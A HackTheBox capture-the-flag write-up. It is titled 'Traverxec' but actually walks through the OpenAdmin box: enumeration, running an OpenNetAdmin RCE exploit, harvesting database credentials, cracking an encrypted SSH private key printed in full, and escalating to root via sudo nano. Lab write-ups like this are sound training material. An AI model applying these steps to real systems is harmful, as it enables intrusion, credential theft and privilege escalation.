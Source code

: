 # Traverxec
Box IP **10.10.10.171**


### Nmap scan

```bash
$ nmap -sC -sV -T5 -v openadmin.htb
```

### Services
```bash
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Fuzzing

Trying to fuzz for web directories

```bash
$ gobuster dir -u "http://10.10.10.171" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.log
```

we find a website **/marga** and **/ona** the OpenNetAdmin page, where an alert shows up complaining about the installed version

<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Openadmin/src/1.png" alt="1" />
</p>


### Getting a shell

Searching for **OpenNetAdmin** we find two exploits for a RCE vulnerability
- [47772](https://www.exploit-db.com/exploits/47772)
- [47691](https://www.exploit-db.com/exploits/47691)

We get a shell as **www-data** and we find two usernames
```
$ ./47691.sh 10.10.10.171/ona/
$ whoami
www-data
$ ls /home
jimmy
joanna
```

### Search for interesting files

By searching for config files
```
find . -type f -name "config*"
./config/config.inc.php
./workspace_plugins/builtin/host_actions/config.inc.php
./config_dnld.php
./modules/ona/configuration.inc.php
```

and catting **config.inc.php** we find 2 interesting references to files
**/var/log/ona.log**
**/local/config/database_settings.inc.php**

we got some DB creds **ona_sys:n1nj4W4rri0R!**
```
cat local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

### SSH jimmy

By password spraying with the two users we successfully SSHing as **jimmy** but we got no user.txt flag

In **/var/www/internal** we got **login.php**, **logout.php** and **main.php**

where a successfully login in **login.php** leads to **main.php**
```php
if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
}
```

and the joanna SSH key is catted

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

By looking at listening services

```bash
$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6      70      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -  
```

where 3306 is mysql and 52846 is our service!

This is also confirmed in

<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Openadmin/src/2.png" alt="1" />
</p>

We get **joanna** encrypted key by curling http://127.0.0.1:52846/main.php

```
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

### SSH joanna

We crack the encrypted key with john
```bash
$ locate ssh2john.py
$ python /usr/share/john/ssh2john.py prvJoanna > prvJoanna.hash
$ john -wordlist:/usr/share/wordlists/rockyou.txt prvJoanna.hash
```

and we get the password **bloodninjas**

By SSHing we got joanna shell and the **user.txt**
```
$ ssh -i prvJoanna joanna@openadmin.htb
```

### Privilege Escalation

Joanna can nano /opt/priv as super user without requiring password

```bash
$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

As [gtfobins](https://gtfobins.github.io/gtfobins/nano/) suggests we can
- Spawn a [shell](https://github.com/lorenzoinvidia/HackTheBox-CheatSheets/wiki/Linux#nano)
- [Read](https://github.com/lorenzoinvidia/HackTheBox-CheatSheets/wiki/Linux#nano) **root.txt**
- [Write](https://github.com/lorenzoinvidia/HackTheBox-CheatSheets/wiki/Linux#nano) [/etc/sudoers](https://github.com/lorenzoinvidia/HackTheBox-CheatSheets/wiki/Linux#sudoers) and then **sudo su**


<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Openadmin/src/3.png" alt="1" />
</p>



If you liked this write-up, please leave a respect on my hackthebox

![htbbadge](https://www.hackthebox.eu/badge/image/77747)
